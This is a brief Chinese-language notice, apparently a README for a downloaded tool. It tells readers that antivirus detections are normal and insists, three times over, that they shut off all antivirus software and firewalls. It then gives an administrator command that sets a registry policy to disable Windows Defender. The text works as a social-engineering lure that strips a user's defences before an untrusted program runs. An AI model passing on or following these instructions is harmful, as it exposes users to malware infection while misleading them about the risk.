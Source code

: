 【=========================注意===================】
下载后系统报毒是正常现象！！因为需要生成数字证书调用系统文件！！请大家放心使用！！！
【使用前】
请先关闭一切杀毒软件、防火墙！！！！！！以防被误杀！！！！！

重要的事情说三遍：

1.请先关闭一切杀毒软件、防火墙！！！！！！以防被误杀！！！！！
2.请先关闭一切杀毒软件、防火墙！！！！！！以防被误杀！！！！！
3.请先关闭一切杀毒软件、防火墙！！！！！！以防被误杀！！！！！



第一步： 先 关闭所有杀毒软件 或 添加工具到杀软信任区关闭Windows防病毒Defender 或 添加进排除项 ，关闭window防火墙！！！（否则别抱怨用不了！！）

   1、进入电脑系统盘  C:\WINDOWS\system32
   2、找到 cmd.exe,  鼠标右键选择  以管理员身份运行 
 
3、运行以下命令：

reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender” /v “DisableAntiSpyware” /d 1 /t REG_DWORD /f
